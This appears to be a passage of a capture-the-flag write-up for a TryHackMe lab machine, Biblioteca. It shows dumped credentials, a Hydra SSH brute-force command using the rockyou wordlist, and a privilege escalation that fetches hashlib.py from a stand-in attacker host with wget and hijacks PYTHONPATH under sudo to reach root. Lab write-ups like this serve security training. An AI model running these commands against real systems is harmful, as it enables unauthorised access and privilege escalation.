 ```bash
| 1    | smokey@email.boop | smokey     | My_P@ssW0rd123 |
| 2    | researcher@m.com  | researcher | password       |
+------+-------------------+------------+----------------+
...
```

![image](https://github.com/user-attachments/assets/d556c288-0d78-4195-a46d-03902bb0ee49)

![image](https://github.com/user-attachments/assets/6d137507-6bc2-48f3-aa28-c0b9adeca9aa)

<h3>hydra</h3>

```bash
:~/Biblioteca# hydra -l 'hazel' -P /usr/share/wordlists/rockyou.txt biblioteca ssh -t 50
```

![image](https://github.com/user-attachments/assets/088d15f8-5d97-4c3a-8301-90f61bfd81c8)

```bash
:~/Biblioteca# ssh hazel@biblioteca
```

![image](https://github.com/user-attachments/assets/27f9b0c7-f0e9-4a7b-8d96-cff2989371a2)

<h3>ssh</h3>

```bash
hazel@ip-10-10-229-62:~$ pwd
/home/hazel
hazel@ip-10-10-229-62:~$ ls
hasher.py  user.txt
hazel@ip-10-10-229-62:~$ cat user.txt
```

![image](https://github.com/user-attachments/assets/ecf4c3eb-5ec2-4db3-a20f-5afc0fde8394)

<h3>hasher.py</h3>

![image](https://github.com/user-attachments/assets/617f6cf5-7419-49cf-a1ba-c046e7e30433)


<h3>sudo -l</h3>

![image](https://github.com/user-attachments/assets/8800d740-4235-4524-8cc5-04b90e0a64af)

<p><code>hazel</code>code> can run <code>/usr/bin/python3 /home/hazel/hasher.py</code>code></p>

![image](https://github.com/user-attachments/assets/ee75dbf0-d751-4a19-96b5-860ba8c10d1a)

```bash
hazel@ip-xx-xx-xxx-xx:/tmp$ wget http://AttackIP:8000/hashlib.py
...
hazel@ip-xx-xx-xxx-xx:/tmp$ chmod +x hashlibb.py
hazel@ip-xx-xx-xxx-xx:/tmp$ chmod +x hashlib.py
hazel@ip-xx-xx-xxx-xx:/tmp$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py
rootl@ip-xx-xx-xxx-xx:/tmp# ls /root
root.txt  snap
rootl@ip-xx-xx-xxx-xx:/tmp# cat /root/root.txt
THM{PytH0n_LiBr@RY_H1j@acKIn6}
rootl@ip-xx-xx-xxx-xx:/tmp# 
```

![image](https://github.com/user-attachments/assets/70282ae4-a393-475e-85de-135d6d40d6b2)

<br>
<br>
